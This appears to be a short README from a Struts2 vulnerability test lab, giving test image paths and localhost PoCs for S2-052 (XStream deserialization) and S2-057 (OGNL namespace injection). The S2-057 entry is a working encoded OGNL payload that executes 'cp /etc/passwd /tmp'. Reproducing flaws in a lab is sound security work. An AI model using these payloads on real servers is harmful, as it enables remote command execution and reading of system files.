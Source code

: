 ## S2-052 xtream 反序列化漏洞

测试镜像

* src/struts/2.5.12/

Poc

```
python s2-052.py -u http://127.0.0.1:8080/struts2-rest-showcase/orders/3 -c whoami
```

## S2-057 struts namespace OGNL 代码执行漏洞

测试镜像

* src/struts/2.3.20

Poc

```
curl 'http://127.0.0.1/struts2-showcase/%24%7b(%23_memberAccess%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%2C%40java.lang.Runtime%40getRuntime().exec(%27cp%20/etc/passwd%20/tmp%27))%7d/actionChain1.action'

ls -lah /tmp/passwd
```

